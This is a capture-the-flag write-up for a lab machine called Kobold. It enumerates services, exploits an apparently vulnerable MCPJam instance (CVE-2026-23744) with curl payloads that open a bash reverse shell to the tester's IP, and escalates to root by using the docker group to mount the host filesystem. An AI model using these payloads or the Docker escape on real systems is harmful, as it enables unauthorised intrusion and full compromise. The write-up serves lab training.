










Welcome to my writeup version of the machine Kobold



# Enumeration

## NMAP

Let's start with a nmap to list all the ports open and the services which are running in them.



Then about the services



- We have a port 22 ssh that we'll be looking at later on.

- Ports 80/443, http/https service, redirect to "kobold.htb", therefore we edit the /etc/hosts file with.

```echo "10.129.245.50 kobold.htb" >> /etc/hosts```

Also thanks to `*.kobold.htb`, we can guess that there will be subdomains abailable.

- Port 3552, Golang HTTP Server. Its quite an interesting vector. It responds with `400 Bad Request` to normal requests, I'm guessing its an internal service or something of the nature(like an api).

## HTTPS

[!] At first e are presented with a mmessage of posible dangerous website, just go through.

---


Taking a look at the https



We can see nothing interesting or interactable. Lets look for subdomains.

### Subdomain Enumeration



With wfuzz we'll find a subdomain mcp.kobold.htb.

### Subdomain

Inside this subdomain we can see that thereare differetn features.



After a look aroung, the "settings" menu is the most interesting so far.



On it we can see the version of the service:

```MCPJam Version: v1.4.2```

### Exploitation

With a quick serach we'll find that is vulnerable to CVE-2026-23744 ().


We listen to the port 4444:

```
curl -k -X POST 'https://mcp.kobold.htb/api/mcp/connect' \
  -H 'Content-Type: application/json' \
  -d '{"serverConfig":{"command":"bash","args":["-c","bash -i >& /dev/tcp/10.10.15.162/3443 0>&1"],"env":{}},"serverId":"test"}'

```



Now that we now we have RCE, we go for the revershell.

```
curl -k -X POST 'https://mcp.kobold.htb/api/mcp/connect' \
  -H 'Content-Type: application/json' \
  -d '{"serverConfig":{"command":"bash","args":["-c","bash -i >& /dev/tcp/10.10.15.162/4444 0>&1"],"env":{}},"serverId":"test"}'

```
And we are in as the user "ben"



Now treat the terminal

```
script /dev/null -c bash
# Ctrl + z
stty raw -echo; fg
reset xterm
export TERM=xterm
# si no tiene bash:
export SHELL=bash
stty rows 84 columns 184

```
And go for the user flag.

# Privilege Escalation

First of all, the basic local enumeration:

```bash
sudo -l

find / -perm -4000 2>/dev/null

getcap -r / 2>/dev/null

find / -writable 2>/dev/null

```

Looking at the information obtained, w'ell realize that docker is running.

## Docker

When we try to use docker commands, it can be seen that the system won't let us. But at the same time, the response message confirms the existance of the "docker.socket" file.

Even though we dont have access to the docker group, maybe we can use commands inside the temporal docker group thats active.



We can!

Now lets mount the image.

```
sg docker -c "docker run -v /:/mnt --rm --entrypoint cat mysql:latest /mnt/root/root.txt"

```
>Im munting and grabbing the file at the same time

And there is the root flag.

